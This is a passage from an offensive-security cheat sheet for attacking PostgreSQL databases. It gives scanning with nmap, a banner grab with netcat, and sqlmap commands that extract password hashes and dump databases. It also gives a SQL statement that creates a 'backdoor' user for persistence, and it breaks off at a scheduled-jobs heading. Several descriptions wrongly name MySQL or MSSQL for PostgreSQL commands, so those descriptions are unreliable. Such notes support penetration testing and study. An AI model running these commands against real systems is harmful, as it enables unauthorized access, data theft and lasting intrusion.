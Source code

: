 *   **Tool:** \[\[Nmap]]

    ```bash
    nmap <target_ip> -p 5432
    ```
* **Description:** Identifies if the target service is running on the target by scanning target port.

#### Service Enumeration

*   **Tool:** \[\[NetCat]]

    ```bash
    nc <target_ip> 5432
    ```
* **Description:** Retrieves the service banner to identify the software version and potential vulnerabilities.

### Initial Access

#### Exploiting Default Credentials

*   **Tool:** \[\[SQLMap Cheat Sheet]]

    ```bash
    sqlmap -u "http://<target_ip>/vulnerable.php?id=1" --dbms=postgresql --batch --passwords
    ```
* **Description:** Attempts to log in using default or weak credentials to gain access to the MySQL database.

#### Exploiting SQL Injection

*   **Tool:** \[\[SQLMap Cheat Sheet]]

    ```bash
    sqlmap -u "http://<target_ip>/vulnerable_page.php?id=1" --dbms=postgresql --dump
    ```
* **Description:** Exploits SQL Injection vulnerabilities to extract data from MSSQL databases.

### Persistence

#### Create a SQL User Account

*   **Tool:** \[\[PSQL]]

    ```bash
    CREATE USER backdoor WITH PASSWORD 'backdoor_password';
    ```
*
  * **Description:** Creates a new user with full privileges that can be used to maintain access to the database.

#### Scheduled Jobs (pg\_cron)

*   **Tool:** \[\[PSQL]]
